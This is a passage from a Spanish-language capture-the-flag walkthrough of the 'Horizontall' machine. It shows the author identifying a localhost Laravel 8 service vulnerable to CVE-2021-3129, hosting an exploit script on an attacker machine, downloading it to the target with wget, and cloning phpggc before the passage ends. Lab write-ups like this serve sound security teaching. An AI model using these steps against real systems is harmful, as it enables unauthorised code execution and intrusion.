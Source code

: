 Para identificar qué servicio estaba escuchando en el puerto 8000, ejecuté un curl. La respuesta reveló que se estaba ejecutando una aplicación Laravel versión 8, corriendo sobre PHP 7.4.18. Esto confirmó que el puerto correspondía a un servicio web Laravel accesible solo desde localhost.
```bash
strapi@horizontall:/home/developer$ curl 127.0.0.1:8000
```

## CVE-2021-3129
Continuando con la enumeración, identifiqué que la versión de Laravel 8 que se estaba ejecutando era vulnerable al CVE-2021-3129, una vulnerabilidad crítica que permite la ejecución remota de código debido a un problema en el modo debug activado. 

Para explotar la vulnerabilidad en Laravel, levanté un servidor HTTP simple en mi máquina local con python3 -m http.server 9090 para hospedar el script de explotación y facilitar su transferencia a la máquina objetivo.
```bash
❯ python3 -m http.server 9090
```

Descargué el script  directamente en la máquina objetivo usando wget.
```bash
strapi@horizontall:/home/developer$ cd /tmp
strapi@horizontall:/tmp$ wget http://10.10.16.4:9090/CVE-2021-3129_exploit/exploit.py
--2025-07-01 16:01:32--  http://10.10.16.4:9090/CVE-2021-3129_exploit/exploit.py
Connecting to 10.10.16.4:9090... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2935 (2.9K) [text/x-python]
Saving to: ‘exploit.py’

exploit.py          100%[===================>]   2.87K  14.5KB/s    in 0.2s    

2025-07-01 16:01:33 (14.5 KB/s) - ‘exploit.py’ saved [2935/2935]
```

Antes de ejecutar el exploit, verifiqué si la máquina objetivo tenía acceso a internet mediante un ping, pero observé que no había conectividad, lo que implicaba que el exploit que requería descargar recursos externos no funcionaría directamente desde la máquina.
```bash
strapi@horizontall:/tmp$ ping 8.8.8.8 -c 4
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.

--- 8.8.8.8 ping statistics ---
4 packets transmitted, 0 received, 100% packet loss, time 3071ms
```

Al no contar con acceso a Internet en la máquina para descargar las dependencias necesarias durante la explotación, cloné el repositorio phpggc desde mi equipo. Esto me permitió disponer de todas las herramientas y recursos necesarios de manera local para preparar y ejecutar el exploit sin depender de la conectividad de la maquina.
```bash
❯ git clone https://github.com/ambionics/phpggc.git
Clonando en 'phpggc'...
remote: Enumerating objects: 4769, done.
remote: Counting objects: 100% (857/857), done.
remote: Compressing objects: 100% (297/297), done.
remote: Total 4769 (delta 653), reused 560 (delta 560), pack-reused 3912 (from 2)
Recibiendo objetos: 100% (4769/4769), 691.56 KiB | 611.00 KiB/s, listo.
Resolviendo deltas: 100% (2185/2185), listo.
```
